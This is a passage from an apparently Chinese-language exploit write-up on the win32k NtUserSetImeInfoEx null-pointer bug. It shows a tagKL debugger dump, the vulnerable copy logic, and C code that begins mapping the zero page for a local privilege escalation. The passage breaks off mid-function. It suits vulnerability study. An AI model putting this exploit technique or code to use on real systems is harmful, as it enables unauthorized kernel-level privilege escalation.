 ```
```

[![](https://p3.ssl.qhimg.com/t01571cc26dc83419d2.png)](https://p3.ssl.qhimg.com/t01571cc26dc83419d2.png)

```
kd&gt; dt win32k!tagKL
   +0x000 head            : _HEAD
   +0x008 pklNext         : Ptr32 tagKL
   +0x00c pklPrev         : Ptr32 tagKL
   +0x010 dwKL_Flags      : Uint4B
   +0x014 hkl             : Ptr32 HKL__
   +0x018 spkf            : Ptr32 tagKBDFILE
   +0x01c spkfPrimary     : Ptr32 tagKBDFILE
   +0x020 dwFontSigs      : Uint4B
   +0x024 iBaseCharset    : Uint4B
   +0x028 CodePage        : Uint2B
   +0x02a wchDiacritic    : Wchar
   +0x02c piiex           : Ptr32 tagIMEINFOEX
   +0x030 uNumTbl         : Uint4B
   +0x034 pspkfExtra      : Ptr32 Ptr32 tagKBDFILE
   +0x038 dwLastKbdType   : Uint4B
   +0x03c dwLastKbdSubType : Uint4B
   +0x040 dwKLID          : Uint4B
```

v3[5]为tagWindowStation-&gt;spklList-&gt;hkl，最后v3[11]为tagWindowStation-&gt;spklList-&gt;piiex。代码逻辑可以转化为：

```
v3 = tagWindowStation-&gt;spklList;
while ( spklList-&gt;hkl != a2[0])`{`
....
`}`
v4 = spklList-&gt;piiex;
if( !v4[18])`{`
qmemcpy(v4,a2,348u);
`}`
```

**（二）布局零页构造入参**

假设我们传入NtUserSetImeInfoEx的参数名称为buf，那么我们需令tagwindowstation-&gt;spklList-&gt;hkl等于 buf[0]，令tagwindowstation-&gt;spklList-&gt;piiex不为空，令tagwindowstation-&gt;spklList-&gt;piiex-&gt;fLoadFlag不为空，就可以将buf中的数据拷贝到v4指向的地址中，此处v4为tagwindowstation-&gt;spklList-&gt;piiex。由于tagwindowstation-&gt;spklList默认为NULL，等同于从0x00000000（零地址）读起，那么我们首先创建零页。

```
//创建零页
// 定义NtAllocateVirtualMemory函数结构
typedef NTSTATUS(WINAPI* MyNtAllocate)(
IN HANDLE ProcessHandle,
IN OUT PVOID* BaseAddress,
IN ULONG ZeroBits,
IN OUT PULONG RegionSize,
IN ULONG AllocationType,
IN ULONG Protect
);

void allocateZero()`{`
PVOID baseAddr = (PVOID)0x100; //以0x100作为起始地址
DWORD size = 0x1000; // 分配页面大小为4KB
MyNtAllocate fun;
*(FARPROC*)&amp;fun = GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
if (fun == NULL)
`{`
printf("[-] fail to GetAddress");
```